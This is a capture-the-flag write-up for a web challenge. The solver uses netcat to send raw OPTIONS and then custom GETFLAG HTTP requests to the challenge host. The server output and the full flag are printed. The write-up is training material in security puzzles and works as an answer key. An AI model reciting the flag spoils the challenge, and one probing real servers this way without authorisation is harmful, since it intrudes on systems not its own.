 ---------------------------------------
**Category:** web **Points:** 75 **Solves:**  **Description:**

> Snoopy give you some missions.
> If you can finish them, he will give you flags.

**mission2.php**
```html
Not Implemented
GET to /mission2.php not supported.
```
### Solution
I found that this php only accept OPTIONS method.
Therefore, I wrote a raw HTTP request do OPTIONS request.

**http_request.txt**
```
OPTIONS /mission2.php HTTP/1.1
Host: mission.cebrusfs.com

```
then get
```bash
$ cat http_request.txt | nc mission.cebrusfs.com 80

HTTP/1.1 200 OK
Date: Mon, 11 Jan 2016 06:36:10 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Allow: GETFLAG,OPTIONS
Content-Length: 0
Content-Type: text/html

```

From the response we know the site allows GETFLAG, OPTIONS method only.
So contructed a GETFLAG request

**http_request.txt**
```
GETFLAG /mission2.php HTTP/1.1
Host: mission.cebrusfs.com

```
then got the flag
```
$ cat http_request.txt | nc mission.cebrusfs.com

HTTP/1.1 200 OK
Date: Mon, 11 Jan 2016 06:56:52 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Content-Length: 58
Content-Type: text/html

CTF{502_not_implement????sent_custom_http_method_instead~}
```
